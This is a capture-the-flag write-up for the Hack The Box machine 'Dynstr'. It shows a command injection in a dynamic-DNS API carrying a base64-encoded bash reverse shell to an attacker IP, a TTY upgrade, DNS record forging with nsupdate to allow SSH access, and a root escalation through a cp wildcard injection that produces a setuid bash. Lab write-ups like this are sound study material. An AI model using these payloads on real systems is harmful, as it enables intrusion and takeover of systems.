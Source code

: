```yaml
---
permalink: /dyster
layout: post
author: jkr
title: Writeup
date: 2021-10-17
publish: True
Dyster
description: "Dynstr is a medium difficulty Linux machine featuring a blog providing Dynamic DNS services. The application API is vulnerable to command injection using which a foothold can be gained. Enumerating one of the users folders leaks SSH private key. Updating DNS zone records allows SSH access which helps in lateral movement. By exploiting a wildcard injection in a bash script root access can be obtained.
"

---
```

# Enumeration
## Nmap

```bash
sudo nmap -sC -sV -oA nmap/dynstr 10.10.10.244

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS


```

Three ports 
- 22
- 53
- 80

![](/Writeups/Dyster/Pasted image 20211017070917.png)

Ubuntu 20

# FootPath
### Port 80

![](/Writeups/Dyster/Pasted image 20211017070142.png)

![](/Writeups/Dyster/Pasted image 20211017070217.png)

Creds

|Username|Password|
|---|---|
|dynadns| sndanyd|

We are providing dynamic DNS for anyone with the same API as no-ip.com has. Maintaining API conformance helps make clients work properly.


Dynamic DNS for a number of domains:

-   dnsalias.htb
-   dynamicdns.htb
-   no-ip.htb

no-ip API

```
http://username:password@dynupdate.no-ip.com/nic/update?hostname=mytest.example.com&myip=192.0.2.25

```

Port 53

```bash

dig axfr @10.10.10.244 dynstr.htb


; <<>> DiG 9.16.12-Debian <<>> axfr @10.10.10.244 dynstr.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.


```

Checking for zones It didn't work.

Sql Injection in API


```bash
GET /nic/update?hostname=t`echo+YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA%2bJjEK|+base64+-d+|+bash`est.no-ip.htb&myip=10.10.14.48 HTTP/1.1
Host: 10.10.10.244
Authorization: Basic ZHluYWRuczpzbmRhbnlk
User-Agent: curl/7.74.0
Accept: */*
Connection: close

```

![](/Writeups/Dyster/Pasted image 20211017073334.png)

```bash

## first command Replace ip and port

echo 'bash -i >& /dev/tcp/10.10.14.48/9001 0>&1' | base64 

## second command

echo -ne YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40OC85MDAxIDA+JjEK| base64 -d | bash

```

![](/Writeups/Dyster/Pasted image 20211017073652.png)

TTY shell

```bash
python3 -c 'import pty; pty.spawn("bin/bash")'
ctrl+z 
stty -raw echo;fg 
return 
export TERM=xterm

```


# User

private_key for bindmgr found at `/home/bindmgr/support-case-C62796521`

![](/Writeups/Dyster/Pasted image 20211017074518.png)

copy to your machine use vim editor to replace new line

```vim

:s/\\n/\r/g

```

sshing using private key is not working.

![](/Writeups/Dyster/Pasted image 20211017075036.png)

Entry is only allowed from a patricular domain `.infra.dyna.htb`

looking at update file at /var/www/html/nic we can our ip to that domain using nsupdate to create new DNS record

```php
www-data@dynstr:/var/www/html/nic$ cat update 
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
    }
  } else {
    echo "nochg $myip\n";
  }
?>
```


```bash
www-data@dynstr:/var/www/html/nic$ nsupdate -t 1 -k /etc/bind/infra.key 
> ADD aju.infra.dyna.htb 30 IN A 10.10.14.91
> send
> ADD 91.14.10.10.in-addr.arpa 30 IN PTR aju.infra.dyna.htb
> send
```

![](/Writeups/Dyster/Pasted image 20211017084635.png)

# Root

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
	
	```bash
	cp .version * /etc/bind/named.bindmgr/
	```
	
We can exploit cp to get root

Do following

```bash

echo 1 >.version
cp /bin/bash . 
chmod u+s bash 
touch -- '--preserve=mode'

```
	
![](/Writeups/Dyster/Pasted image 20211017085933.png)


[back](/writeup)
